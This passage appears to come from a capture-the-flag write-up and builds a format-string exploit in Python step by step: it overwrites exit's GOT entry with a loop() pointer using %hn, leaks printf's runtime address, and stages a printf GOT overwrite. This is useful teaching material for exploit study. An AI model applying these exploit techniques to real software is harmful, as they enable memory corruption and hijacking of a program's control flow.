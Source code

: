 Then we craft a format string to put EXIT and the 7 addresses above it on the stack starting at the 17th index and ending at the 24th. This ended up not being necessary for the overwriting the exit entry but having the ability to independently edit bytes is required to edit the ```printf()``` GOT entry.

```Python
# put address of EXIT_GOT on stack
exploit = ""
exploit += "AAAABBBBCCCCDDDDEEEEFFFF"

#17$->24$
for i in range(0, 8, 1):
    exploit += struct.pack("Q", EXIT_GOT + i);
```

Then we write a pointer to ```loop()``` to the GOT entry. The ```%hn``` specifier simply writes a 2 byte integer instead of a 4 byte one. Likewise ```%hhn``` would write a single byte. The 3rd through 8th bytes of the pointer were already in order, so we did not bother to write over them. 

```Python
# write to exit got entry the value of loop pointer
exploit += "\ne "
exploit += "%2493x%17$hn"
```

Now we add more padding and write the relevant bytes for the GOT entry of ```printf()``` to the stack.

```Python
# prep for leak of printf addr
exploit += "\n" + "AAAABBBBCCCCDDDDEEEEFFFF"*8
for i in range(0, 12, 1):
    exploit += struct.pack("Q", PRINTF_GOT + i - 4);
```

Finally we get to leak the runtime address of ```printf()``` with the ```%s``` specifier.

```Python
# leak addr of printf to console
exploit += "\ne "
for i in range(0, 8):
    exploit += "%"+str(i+39)+"$s,"
exploit += "\n"
```

Now we put the GOT address of ```printf()``` on the stack a little bit higher to protect it from tampering, and print the result. If someone has an explanation as to why our writes affect the stack values, that would be awesome. Please do contact us.

```Python
# prep for overwrite of printf (starts at $51 for printf got addr)
exploit += "AAAABBBBCCCCDDDDEEEEFFFFGGGG"*10
for i in range(0, 10):
    exploit += struct.pack("Q", PRINTF_GOT + i - 2)

exploit += "\n"

print exploit
```
